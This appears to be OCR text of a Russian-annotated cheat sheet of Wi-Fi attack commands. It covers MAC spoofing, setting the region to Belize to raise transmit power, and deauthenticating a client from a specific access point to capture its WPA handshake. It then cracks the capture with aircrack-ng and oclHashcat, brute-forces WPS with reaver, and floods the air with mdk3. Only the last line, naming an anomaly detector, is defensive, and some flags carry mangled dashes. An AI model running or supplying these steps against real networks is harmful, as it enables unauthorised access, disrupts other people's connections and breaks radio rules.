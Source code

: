 # aireplay-ng -9  
# iwlist wlan0 frequency  
# ifconfig wlan0 down — выключаем интерфейс.  
# macchanger -r wlan0 — меняем MAC.  
# iw reg set BZ — выставляем регион Белиз.  
# iwconfig wlan0 txpower 30 — увеличиваем мощность.  
# ifconfig wlan0 up — поднимаем интерфейс.  
  
  
# airodump-ng wlan0mon  
# airodump-ng wlan0mon --bssid FC:8B:97:57:97:A9 --channel 2 --write handshake --wps  
# aireplay-ng -0 10 -a FC:8B:97:57:97:A9 -c 68:3E:34:15:39:9E wlan0mon  
  
# cowpatty -r handshake-01.cap -c  
# wpaclean handshake-01.cap wpacleaned.cap  
  
# aircrack-ng wpacleaned.cap –w wordlist.txt  
# oclHashcat –m 2500 –a 3 end.hccap путь к словарю - WPA/WPA2  
  
# wash -i wlan0mon –scan  
# reaver -i wlan0mon -b 00:AA:BB:11:22:33 -vv -K 1  
  
# mdk3 wlan0 a  
  
Для обнаружения аномалий беспроводного эфира в “домашних” условиях можно  
использовать утилиту waidps - https://github.com/SYWorks/waidps